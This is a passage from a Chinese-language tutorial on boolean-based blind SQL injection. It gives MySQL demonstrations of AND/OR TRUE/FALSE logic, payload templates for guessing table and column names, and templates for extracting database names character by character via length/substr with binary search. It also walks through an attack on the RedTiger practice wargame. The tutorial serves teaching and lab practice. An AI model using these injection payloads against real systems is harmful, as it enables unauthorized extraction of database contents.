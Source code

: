 4)

```
mysql> select * from students where id = 10056 and FALSE ;
Empty set (0.00 sec)
```

5)

```
mysql> selcet * from students where id = 10056 or TRUE ;
+-------+-------+-----+
| id    | name  | age |
+-------+-------+-----+
| 10056 | Doris |  20 |
| 10058 | Jaune |  22 |
| 10060 | Alisa |  29 |
+-------+-------+-----+
3 rows in set (0.00 sec)
```

6)

```
mysql> select * from students where id = 10056 or FALSE ;
+-------+-------+-----+
| id    | name  | age |
+-------+-------+-----+
| 10056 | Doris |  20 |
+-------+-------+-----+
1 row in set (0.00 sec)
```

**会发现and 1=1 , and 1=2 即是 and TRUE , and FALSE 的变种。**  
**这便是最基础的boolean注入,以此为基础你可以自由组合语句。**

字典爆破流

```
and exists(select * from ?)     //?为猜测的表名
and exists(select ? from x)     //?为猜测的列名
```

截取二分流

```
and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度
and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')
and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符
```

### Boolean-based总结

根据前面的介绍，我们知道，对于基于Boolean-based的注入，**必须要有一个可以正常访问的地址**，比如http: //redtiger.labs.overthewire.org/level4.php?id=1 是一个可以正常访问的记录，说明id=1的记录是存在的，下面的都是基于这个进一步猜测。先来判断一个关键字keyword的长度，在后面构造**id=1 and (select length(keyword) from table)=1**，从服务器我们会得到一个返回值，如果和先前的返回值不一样，说明and后面的**(select length(keyword) from table)=1返回false**，keyword的长度不等于1。继续构造直到id=1 and (select length(keyword) from table)=15返回true，说明keyword的长度为15。  
